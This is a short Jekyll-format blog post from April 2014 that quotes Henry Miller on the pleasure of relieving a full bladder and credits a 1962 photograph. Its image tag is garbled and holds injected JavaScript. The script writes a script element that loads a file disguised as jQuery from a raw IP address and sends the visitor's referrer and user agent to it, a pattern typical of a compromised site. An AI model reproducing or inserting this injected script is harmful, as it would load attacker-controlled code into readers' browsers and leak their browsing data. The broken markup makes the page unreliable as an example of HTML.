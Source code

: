 ```yaml
---
layout: post
title: "May You Have A Really Excellent Wee Today"
date: 09-Apr-2014
categories: tbd
---
```


# May You Have A Really Excellent Wee Today

## 9th April 2014

“To relieve a full bladder is one of the great human joys.”

<img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  1962 /Manfred KREINER /sc" src="/images/2014/04/77e9120e53ae75c3c5fbaeb8adf0ea97.jpg" />

Photograph 1962,   by Manfred Kreiner,   Henry Miller's thoughts on urination via Maria Popova at <a href="http://www.brainpickings.org/index.php/2013/04/11/henry-miller-on-the-joy-of-urination/">Brain Pickings. </a>

Sometime we need Henry Miller to remind us to stop, be in the moment, and enjoy the small wondrous pleasures of being alive, like a nice wee.

Also from the wonderful old goat in 1950: “Develop an interest in life as you see it; the people, things, literature, music - the world is so rich, simply throbbing with rich treasures, beautiful souls and interesting people. Forget yourself.”

 
